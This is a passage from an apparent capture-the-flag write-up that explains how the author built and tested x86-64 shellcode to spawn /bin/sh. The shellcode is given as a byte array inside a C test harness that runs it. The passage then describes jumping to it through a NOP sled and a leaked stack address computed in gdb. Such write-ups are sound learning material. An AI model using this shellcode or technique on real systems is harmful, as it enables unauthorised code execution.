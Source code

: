 and then tested the machine code in a new C file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

const uint8_t shellcode[39] = {
    0x48, 0xc7, 0xc2, 0x00, 0x00, 0x00, 0x00, 0x48,
    0xc7, 0xc6, 0x00, 0x00, 0x00, 0x00, 0x6a, 0x00,
    0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f,
    0x73, 0x68, 0x50, 0x48, 0x89, 0xe7, 0x48, 0xc7,
    0xc0, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05
};

int main() {
    ((void (*) (void)) shellcode) ();
    return 0;
}
```

That also gives me a shell. Great! So now I have my shellcode. Of course I could have pulled this from a previous challenge or from [shell-storm](http://shell-storm.org/shellcode/), but I found this to be a helpful exercise for generating arbitrary shellcode later (except that I didn't have to get rid of null bytes this time).

### Figuring out how to use the 'GPS' to jump to my shellcode

(Hey, why was I reading the code in `IDA Pro` last night? I had the source code!!) Let's see what `query_position()` does:

```c
void *query_position() {
  char stk;
  int offset = rand() % GPS_ACCURACY - (GPS_ACCURACY / 2);
  void *ret = &stk + offset;
  return ret;
}
```

.* Okay, so what's the GPS accuracy? `1337`, of course. So, I won't know the exact location of a pointer on the stack, but I'll know it to within `668` bytes. My buffer can contain `0x1000` bytes, so I'll preface my shellcode with a NOP sled containing `1337` bytes, and then just jump to the middle of the sled. Easy enough.

So in `gdb` I ran the program once, put a breakpoint right after returning from the `scanf` call getting data for the  "Where do we start?" prompt, and calculated the offset between the location and halfway through the NOP sled. That was `0x39b` in my case. So I just add that offset to the returned address and enter it for the location.

### Solution

With that, I got the flag!
